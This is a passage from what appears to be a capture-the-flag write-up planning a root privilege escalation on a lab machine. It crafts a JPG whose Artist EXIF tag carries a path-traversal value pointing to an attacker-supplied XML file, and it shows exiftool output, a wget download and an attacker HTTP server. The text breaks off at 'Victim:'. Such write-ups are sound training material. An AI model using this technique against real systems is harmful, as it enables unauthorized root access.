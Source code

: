 >Note: User-Agent parsing.

##### Planning the attack

>Note: Create a `jpg` with an `Artist` metadata tag containing the path to an `xml` file which contains code to be run by `root`.

###### Craft a malicious jpg

	wget http://10.10.11.170:8080/img/greg.jpg
	exiftool greg.jpg

```text
ExifTool Version Number         : 12.44
File Name                       : greg.jpg
Directory                       : .
File Size                       : 103 kB
File Modification Date/Time     : 2022:08:29 13:25:35+02:00
File Access Date/Time           : 2022:08:29 13:25:35+02:00
File Inode Change Date/Time     : 2022:08:29 13:26:09+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Artist                          : woodenk
<...SNIP...>
```

	exiftool greg.jpg

```text
ExifTool Version Number         : 12.44
File Name                       : greg.jpg
Directory                       : .
File Size                       : 103 kB
File Modification Date/Time     : 2022:08:29 13:32:14+02:00
File Access Date/Time           : 2022:08:29 13:32:14+02:00
File Inode Change Date/Time     : 2022:08:29 13:32:14+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Artist                          : ../home/woodenk/privesc
<...SNIP...>
```

Attacker:

	python3 -m http.server 80

Victim:
